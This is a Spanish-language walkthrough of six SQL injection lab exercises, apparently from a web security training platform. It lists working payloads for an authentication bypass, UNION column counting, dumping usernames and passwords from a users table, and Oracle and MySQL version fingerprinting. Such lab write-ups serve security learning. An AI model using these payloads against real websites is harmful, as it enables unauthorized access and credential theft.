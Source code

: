 
## LAB 1

Es un simple login que nos piden que accedamos como administrator, para ello usamos lo siguiente:

```
administrator'-- -
```

La primera comilla cierra el campo username y con el comentario obvia el resto de la consulta

## LAB 2

En este lab nos piden que determinemos el numero de columnas para ello primero lo determinamos con un order by para posteriormente hacer:

```
'union select NULL,NULL,NULL -- -
```

## LAB 3

Nos piden que inyectemos una cadena de texto para ello con la consulta anterior deberemos fuzzear los parametros hasta ver donde podemos inyectar la cadena:

```
'UNION select NULL,'n5dC86',NULL-- -
```

## LAB 4

En este caso, nos piden que tratemos de obtener los credenciales para el usuario administrator, para ello deberemos de conocer el numero de columnas y que campos son inyectables:
`'+UNION+SELECT+'abc','def'--`

Una vez visto eso simplemente con la siguiente consulta nos leakeara la password de administrator:

```
'+UNION+SELECT+username,+password+FROM+users--
```

## LAB 5

Como en los anteriores labs necesitaremos conocer las columnas y cuales de ellas son inyectables, aqui nos piden que descubramos la version en ORACLE:

```
'+UNION+SELECT+BANNER,+NULL+FROM+v$version--
```

## LAB 6

Este lab es igual que el anterior pero nos piden la version para MYSQL:

```
'+UNION+SELECT+@@version,+NULL#
```

